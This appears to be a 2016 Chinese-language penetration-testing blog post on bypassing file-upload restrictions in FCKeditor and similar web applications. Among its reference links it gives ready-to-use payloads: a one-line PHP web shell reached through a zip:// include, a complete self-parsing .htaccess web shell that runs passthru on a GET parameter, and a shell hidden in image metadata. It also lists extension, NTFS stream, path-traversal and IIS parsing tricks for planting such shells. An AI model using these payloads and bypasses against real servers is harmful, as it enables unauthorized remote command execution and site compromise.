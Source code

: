 ```yaml
---
layout:     post
title:      fckeditor各版本绕过
date:       2016-08-12
summary:    fckeditor各版本绕过
categories: web
tags:
 - fckeditor
 - web
 - upload
---
```


### 0x00 fckeditor上传漏洞总结

    http://sec.chinabyte.com/206/13708206.shtml
    http://www.cnbraid.com/2015/07/09/fckeditor/
    http://www.it610.com/article/1842939.htm
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf <=2.6.4

### 0x01 asp

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
    2.6.6
        http://www.hack80.com/thread-320-1-1.html
        http://www.qhwins.com/ShowNews/?11-20109214030542523.html
    2.6.8
        http://www.freebuf.com/vuls/6408.html

### 0x02 php

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf

### 0x03 fckeditor经典尝试后缀

    1>将后缀改成.php.pjpg
    2>将后缀改成.html
    3>将后缀改成.lnk

### 0x04 其它上传技巧

    1>上传时,延迟一下再上传,有时能bypass admin,用到firefox tamper插件
        https://www.youtube.com/watch?v=ndeYnMoFPx8
        管理员登录绕过
            https://www.youtube.com/watch?v=UO-vzWFctTA
            https://www.youtube.com/watch?v=a5fm629s8Ao
                firefox noredirect插件
    2>双文件上传
    3>上传以图片后缀名为后缀的压缩文件,文件实际是一个webshell.php文件的压缩文件(zip),利用lfi漏洞并将lfi要包含
      的文件的参数赋值为:
        zip://archive.zip#webshell.php
        或
        zip://archive.zip#webshell.php&param1=system&param2=ls   ===>这里对应webshell.php为:
            <?php $_GET['param1']($_GET['param2']);?>
      这里适用的情况为:
        a>可上传任意内容文件(通过修改Content-Type等达到目的),但文件会被重命令为以png为后缀文件
        b>找到了lfi漏洞,但是lfi漏洞不能包函.|./|..|..\|...等情况
      更多细节:
        https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/
    4>上传图片被resize等修改时,绕过方法: 
        a)利用上传前和上传后的文件对比找出没有变化的字符串,将其写payload
            http://www.freebuf.com/articles/web/54086.html
        b)老外的方法,比a)中的要好
            https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
        用法:x.php?0=system post data:1=whoami,上面链接中的payload见如下phppayload
        c)上面b中的条件限制为png且大小为32x32,jpg绕过方法
            http://www.blogs8.cn/posts/WiA3bxU

<a href="https://www.idontplaydarts.com/images/phppng.png">phppayload</a>
<a href="https://raw.githubusercontent.com/3xp10it/pic/master/phppng.png">phppayload_bak_link</a>

    5>https://www.nds.rub.de/media/attachments/files/2012/11/File-in-the-hole.pdf
        多种上传技巧:
        a)将.htaccess本身作为webshell,解析本身.htaccess作为php
            http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html
            -----------------------自解析.htaccess--------------------------------
            # Self contained .htaccess web shell - Part of the htshell project
            # Written by Wireghoul - http://www.justanotherhacker.com

            # Override default deny rule to make .htaccess file accessible over web
            <Files ~ "^\.ht">
            Order allow,deny
            Allow from all
            </Files>

            # Make .htaccess file be interpreted as php file. This occur after apache has interpreted
            # the apache directoves from the .htaccess file
            AddType application/x-httpd-php .htaccess

            ###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
            -----------------------自解析.htaccess--------------------------------

        b)NTFS ADS
            1."file.asp::$data"=="file.asp"
            2."/folder:$i30:$Index_allocation"=="/folder"
            3.".htaccess:.jpg" -> make empty ".htaccess"=="HTACCESS~1"
                适用于.htaccess不让上传情况下,估计一般情况下都不让上传隐藏文件,这时通过burp将文件名名改成
                .htaccess:.jpg则可上传.htaccess文件
            4.通过文件上传来创建文件夹(windows下)
                https://www.youtube.com/v/Ws2JrZG679Q?version=3&hl=en_US&rel=0&vq=hd720
                detail:将文件名通过burp改成file::$Index_Allocation或者是file:$I30:$Index_Allocation,这样就会在服务器上新建file文件夹
        c)绕过../和..\保护:
            https://www.youtube.com/v/HjS6Pob5t34?version=3&hl=en_US&rel=0&vq=hd720
            ../改成.. /(..%20/)
            ..\改成.. \(..%20\)
        d)iis:
            file.asp;.jpg以asp解析
            /folder.asp/file.txt以asp解析
        e)文件名后有被忽略字符
            "test.asp . .. ." == "test.asp" 
            "test.php<>" == "test.php"
        f)在图片文件的文件属性中添加copyright属性为:
            <?=$_GET[0]($_POST[1]);?>
            这个暂时没有找到工具,好像要用photoshop
        g)"file.p.phphp"==>"file.php" 
        h)配置有误情况下:
            "/file.jpg/index.php"会将file.jpg按照php解析
        i)常见content-type"白名单":
            image/gif
            image/jpeg
            image/pjpeg

    6.上传.user.ini文件来解析图片或隐藏webshell[除.htaccess外的方法]
        https://ha.cker.in/1097.seo
    
    8.上传绕过waf
        https://github.com/3xp10it/sectec/blob/master/%E4%B8%8A%E4%BC%A0%E7%BB%95%E8%BF%87waf.pdf
